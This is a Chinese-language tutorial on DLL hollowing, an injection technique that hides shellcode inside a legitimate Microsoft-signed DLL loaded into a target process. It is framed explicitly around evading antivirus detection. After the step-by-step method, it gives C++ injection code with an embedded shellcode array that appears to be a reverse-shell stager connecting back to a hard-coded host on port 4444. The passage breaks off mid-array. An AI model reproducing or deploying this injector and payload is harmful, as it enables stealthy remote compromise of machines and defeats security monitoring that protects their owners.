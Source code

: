 

# 11.dll镂空注入

## 简介

模块镂空（DLL Hollowing）是一种Shellcode注入技术，它借鉴了进程镂空（Process Hollowing）的原理和思路。通过利用合法模块信息来伪装恶意代码，使得检测变得困难。虽然可以通过远程DLL注入的方式将整个恶意DLL注入目标系统，但这种方法较易被检测。例如，攻击者需要将恶意DLL上传到受害者主机，而杀毒软件可以通过监控Windows/Temp/等目录来拦截远程DLL注入。

相比之下，模块镂空不具备这样的风险，因为它是在带有微软签名的DLL中镂空一个区域。为了避免进程出错，不能直接在进程空间中已存在的DLL上进行镂空。取而代之的方法是先向目标进程远程注入一个合法的系统DLL，然后再镂空它。这样一来，我们就获得了一个与Windows模块相关联的Shellcode执行环境，既能规避安全检测，又能实现恶意代码执行



## 代码实现思路

1. **确定要注入的目标进程：**根据进程ID打开目标进程，获取其句柄（示例代码中的进程ID固定为2924，实际应用中可能需要根据需求进行调整）。
2. **将合法的DLL（如amsi.dll）注入目标进程：**通过`VirtualAllocEx`和`WriteProcessMemory`将DLL名称写入远程进程的内存空间。然后，获取`LoadLibraryW`函数的地址，并在远程进程中创建一个新线程以调用该函数，实现DLL的加载。
3. **确定注入的DLL在目标进程中的基址：**使用`EnumProcessModules`函数遍历目标进程中加载的所有模块，找到已注入的合法DLL（如amsi.dll）的基址。
4. **获取DLL的入口点：**读取注入的DLL的PE头部信息，包括DOS头部和NT头部，从中获取DLL的入口点（AddressOfEntryPoint），并计算在目标进程中的实际地址。
5. **向DLL的入口点写入Shellcode：**使用`WriteProcessMemory`将Shellcode写入目标进程的DLL入口点。
6. **执行Shellcode：**在目标进程中创建一个新线程，以DLL的入口点作为线程的起始地址，从而在镂空的DLL内部执行Shellcode



## 完整代码

```cpp
#include <iostream>
#include <Windows.h>
#include <psapi.h>

// 将你的Shellcode放在这里
char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
"\x42\x3c\x48\x01\xd0\x41\x51\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x8b\x48\x18\x49\x01"
"\xd0\x50\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58\x41\x58"
"\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
```